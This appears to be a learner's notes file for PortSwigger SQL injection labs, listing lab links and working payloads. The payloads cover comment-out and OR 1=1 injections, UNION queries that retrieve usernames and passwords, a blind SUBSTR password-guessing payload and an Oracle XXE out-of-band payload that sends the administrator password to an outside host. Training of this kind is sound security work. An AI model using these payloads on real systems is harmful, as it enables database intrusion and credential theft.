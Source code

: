 sqli labs

<!-- SQL injection vulnerability in WHERE clause allowing retrieval of hidden data -->
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

injectable code:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

goal: perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

payload1 = Accessories'--+-  // eliminating the release clause shows unreleased items

payload2 = 
'+OR+1=1--+-


<!-- Lab: SQL injection vulnerability allowing login bypass -->
https://portswigger.net/web-security/sql-injection/lab-login-bypass


<!-- SQL injection UNION attack, determining the number of columns returned by the query -->
https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

-- PayLoad:
'+UNION+SELECT+NULL,+NULL,+NULL+FROM+information_schema.tables--+-

'+UNION+SELECT+NULL,NULL,NULL--+-


'+UNION+SELECT+NULL+FROM+information_schema.tables--+-

<!-- SQL injection UNION attack, finding a column containing text -->
https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

-- PayLoad:
'+UNION+SELECT+NULL,'IWfxqs',NULL--+-


<!-- SQL injection UNION attack, retrieving data from other tables -->
https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

-- PayLoad:
'+UNION+SELECT+username,password+FROM+users--




<!-- SQL injection UNION attack, retrieving multiple values in a single column -->
https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column



<!-- SQL injection attack, querying the database type and version on Oracle -->
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle



<!-- SQL injection attack, querying the database type and version on MySQL and Microsoft -->
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft



<!-- SQL injection attack, listing the database contents on non-Oracle databases -->
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle


<!-- SQL injection attack, listing the database contents on Oracle -->
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle



<!-- Blind SQL injection with conditional responses -->
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

-- what we know:
injection vector = cookie "TrackingId" parameter
table = users
columns = username, password

lab 'tell' is a 'welcome screen' that is beeing loaded when any row returns a value,
effectivly changing the content length from any response without a raw.

-- plan of attack
- check injection point by breaking the code with "'"
- establish baseline: 'correct' response length and 'failed' response length:
- guess a letter and check response length for clues


-- SQL command to use: 
SUBSTR(string, start, length)

substr(cat,1,1) = "c"
substr(dog,2,1) = "o"
substr(blue,2,2) = "lu"
substr(united,4,3) = "ted"

to guess we need to compare each letter in the password to a letter of our choice:
password 1st letter  = 'a' // example

-- command explanation:
AND SUBSTR(
    (SELECT password FROM users WHERE username = 'administrator'),        // string = password to check
    1,1)                                                                  //start substring from XX and for length of YY
    ='a                                                                  // compare to our charecter guess

payload example:
'and substr((select password from users where username='administrator'),1,1)='a          //light version

payload inside code - using "pass_index" and "i" variables:
trackingId +'+AND+SUBSTR((SELECT+password+FROM+users+WHERE+username+%3d+'administrator'),+{pass_index},+1)+=+'{i}"




<!-- Blind SQL injection with conditional errors -->
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

<!-- Blind SQL injection with time delays -->
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays


<!-- Blind SQL injection with time delays and information retrieval -->
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval


<!-- Blind SQL injection with out-of-band interaction -->
https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band


<!-- Blind SQL injection with out-of-band data exfiltration -->
https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

x' UNION SELECT EXTRACTVALUE(
    xmltype('
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [<!ENTITY remote SYSTEM "https://exploit-0ab100770308f09ac0035e9f011400f7.web-security-academy.net/exploit/"+(SELECT password FROM users WHERE username='administrator')>]> 
    &remote
    '),'/l') FROM dual--
    ; session=1fmMdR7yS8HGwofR1SYnkvbWDxEogGkP